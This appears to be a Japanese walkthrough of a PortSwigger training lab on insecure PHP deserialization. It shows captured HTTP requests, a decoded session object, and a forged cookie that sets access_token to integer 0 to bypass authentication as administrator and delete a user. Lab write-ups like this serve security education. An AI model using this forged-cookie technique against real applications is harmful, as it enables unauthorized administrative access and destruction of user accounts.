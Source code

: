 # シリアル化されたデータ型を変更する

以下のハッキングラボを実施します  
https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-modifying-serialized-data-types

このラボではシリアル化ベースのセッション メカニズムを使用しているため、認証バイパスに対して脆弱です。

- 1. BurpSuite を起動して、Proxy タブからブラウザを起動
- 2. ブラウザからハッキングラボにアクセス
- 3. 一般ユーザーでログインします
- 4. ログイン後の GET リクエストを確認

```
GET /my-account?id=wiener HTTP/2
Host: 0a28000004a3548580ac770c000100ba.web-security-academy.net
Cookie: session=Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJzbHR2ZWh2MTk2Mzh0MmUzMHlkdXp4MWhnYWFtYXIxbyI7fQ%3d%3d
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.171 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Sec-Ch-Ua:
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: ""
Referer: https://0a28000004a3548580ac770c000100ba.web-security-academy.net/login
Accept-Encoding: gzip, deflate
Accept-Language: ja,en-US;q=0.9,en;q=0.8
```

- 5. session の値を選択状態にして Inspector を見ます

```
O:4:"User":2:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"sltvehv19638t2e30yduzx1hgaamar1o";}
```

- 6. 次のように変更します。肝は access_token を int 型の 0 にしていることで、型変換することで PHP の型変換で正式な access_token の文字列が 0 として扱われるようになります。

     ![1](https://github.com/pea-sys/web-security-experiments/assets/49807271/1fdba52c-5615-4221-935d-fd785170d33b)

* 7. 変更内容を適用し、id のパラメータを administrator にして送信します

```


GET /my-account?id=administrator HTTP/2
Host: 0a28000004a3548580ac770c000100ba.web-security-academy.net
Cookie: session=Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjEzOiJhZG1pbmlzdHJhdG9yIjtzOjEyOiJhY2Nlc3NfdG9rZW4iO2k6MDt9
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.171 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Sec-Ch-Ua:
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: ""
Referer: https://0a28000004a3548580ac770c000100ba.web-security-academy.net/login
Accept-Encoding: gzip, deflate
Accept-Language: ja,en-US;q=0.9,en;q=0.8
```

- 8. レスポンスに管理パネルのパスが入っていることが確認できます

```
<a href="/admin">Admin panel</a>
```

- 9. 上記リクエストを書き換えて送信します

```
GET /admin
```

- 10. レスポンスからユーザー削除リンクが取得できてることが確認できます

```
 <a href="/admin/delete?username=carlos">Delete</a>
```

- 11. 上記リクエストを書き換えて送信します

```
GET /admin/delete?username=carlos
```

一般ユーザーの削除に成功しました
